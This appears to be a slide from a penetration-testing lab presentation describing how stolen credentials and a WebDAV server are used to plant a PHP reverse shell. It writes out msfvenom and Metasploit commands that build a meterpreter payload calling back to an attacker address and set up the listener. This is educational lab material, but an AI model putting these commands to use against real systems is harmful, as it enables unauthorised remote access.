

# Exploitation: PHP Reverse Shell
01

02

03

Tools & Processes
From our nmap scan, and the information learned from the secret_folder, we know the company is using WebDAV as a file sharing server.
With Ryan’s credentials, we can exploit WebDAV, by create a PHP payload to give us a reverse shell. This is done with msfvenom to create our payload, and metasploit (msfconsole) to setup a listener.
Achievements
By doing this, when the PHP shell script runs, we gain shell access via the listener.

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.90 LPORT=6666 -f raw > shell.php
msfconsole
use multi/handler
set payload php/meterpreter_reverse_tcp
set LHOST 192.168.1.90
set LPORT 6666
run